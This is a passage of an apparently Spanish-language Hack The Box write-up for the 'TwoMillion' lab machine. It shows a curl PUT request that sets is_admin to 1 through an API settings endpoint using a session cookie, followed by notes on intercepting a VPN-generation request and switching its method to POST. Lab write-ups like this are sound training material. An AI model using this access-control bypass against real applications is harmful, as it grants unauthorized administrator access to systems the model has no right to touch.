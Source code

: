 ```terminal
/home/kali/Documents/htb/machines/twomillion:-$ curl -X PUT -d '{"email":"user@user.com", "is_admin": 1}' -H "Content-Type: application/json" -H "Cookie: PHPSESSID=4osdeihvi15jqfu5t1jo99e17j" http://2million.htb/api/v1/admin/settings/update
{"id":16,"username":"user","is_admin":1}
```

![](/assets/img/htb-writeup-twomillion/twomillion3_6.png)

Intercepto la peticion de la API /api/v1/admin/vpn/generate.

![](/assets/img/htb-writeup-twomillion/twomillion3_7.png)

Cambio el metodo de la peticion de GET a POST.

![](/assets/img/htb-writeup-twomillion/twomillion3_8.png)
